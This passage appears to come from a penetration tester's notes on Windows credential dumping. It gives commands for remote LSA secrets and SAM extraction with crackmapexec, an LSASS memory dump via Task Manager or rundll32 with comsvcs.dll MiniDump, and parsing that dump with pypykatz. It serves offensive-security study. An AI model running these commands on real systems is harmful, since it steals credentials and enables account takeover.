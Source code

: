 ### Remote Dumping & LSA Secrets 

With access to credentials with **local admin privileges**, it is also possible for us to target LSA Secrets over the network:
```console
zero@pio$ crackmapexec smb <IP> --local-auth -u <USER> -p <PASSWORD> --lsa
```

Or SAM:
```console
zero@pio$ crackmapexec smb <IP> --local-auth -u <USER> -p <PASSWORD> --sam
```

## LSASS

Upon initial logon, LSASS will:
- Cache credentials locally in memory
- Create access tokens
- Enforce security policies
- Write to Windows security log

### Dumping

We can copy it directly from the **Task Manager**. Right click on `Local Security Authority Process` in the **Processes** tab and select the `Create dump file` option. The file will be `C:\Users\loggedonusersdirectory\AppData\Local\Temp\lsass.DMP`{: .filepath}.

### Rundll32.exe & Comsvcs.dll Method

If we don't have GUI access we can try using the utility `rundll32.exe`. Modern antivirus detect this methods as a malicious activity. First, we must get the LSASS PID. Run:
```console
C:\zeropio> tasklist /svc
```

To get a list of the process and their PIDs. Find the `lass.exe` process. From the PowerShell we can use it as:
```console
PS C:\zeropio> Get-Process lsass
```

Now we can use it as:
```console
PS C:\zeropio> rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
```

The `rundll32.exe` utility will import the function `comsvcs.dll`, which will import the **MiniDumpWriteDump** (`MiniDump`) function.

### Pypykatz 

Pypkatz is the Mimikatz implementation in pure Python. We can use it as:
```console
zero@pio$ pypykatz lsa minidump <LSASS DUMP FILE>
```
